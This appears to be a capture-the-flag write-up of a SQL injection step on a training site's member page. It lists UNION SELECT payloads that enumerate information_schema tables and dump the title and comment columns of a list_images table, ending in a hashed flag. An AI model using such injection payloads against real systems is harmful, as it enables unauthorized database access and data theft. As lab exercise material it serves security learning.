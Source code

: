 # SQL INJECTION

_/index.php?page=member_

#### Same as the first flag, we just display value from table list_images table and we get the flag
```
1 or 1=1 UNION SELECT TABLE_NAME, NULL FROM information_schema.tables
```

#### List of list_images table columns
```
list_images
id
url
title
comment
```

#### We display column Commentaire and countersign
```
1 or 1=1 UNION select title, comment FROM list_images
```

#### And we get the flag !!
```
ID: 1 or 1=1 UNION select title, comment FROM list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```


